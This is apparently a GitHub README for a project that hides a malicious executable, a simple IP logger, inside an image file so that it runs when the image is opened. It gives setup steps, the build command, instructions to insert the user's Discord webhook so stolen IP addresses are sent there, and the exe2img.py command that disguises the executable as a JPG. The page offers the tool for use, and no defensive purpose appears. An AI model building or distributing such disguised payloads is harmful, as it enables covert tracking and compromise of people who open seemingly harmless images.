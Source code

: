 ## Introduction
This project attempts to embed a malicious executable into an image file, such that the executable, in this case, a simple IP logger, is run whenever the image is opened.

## Requirements

1. Download [WinRAR](https://www.rarlab.com/download.htm?source=post_page-----81ee5339707e---------------------------------------) and [ImageMagick](https://imagemagick.org/script/download.php), and add the WinRAR folder to the system environment variables

2. Install the dependencies
```
pip install wand
dotnet add package Newtonsoft.Json
dotnet add package System.Management
```

## Usage

1. Add your discord webhook in `Program.cs` and compile with
```
dotnet publish -c Release -r win-x64 --self-contained true -p:PublishSingleFile=true -p:EnableCompressionInSingleFile=true -o dist
```
2. Run `exe2img.py` to embed the executable into an image
```
python exe2img.py -e your_executable.exe -i your_image.jpg
```
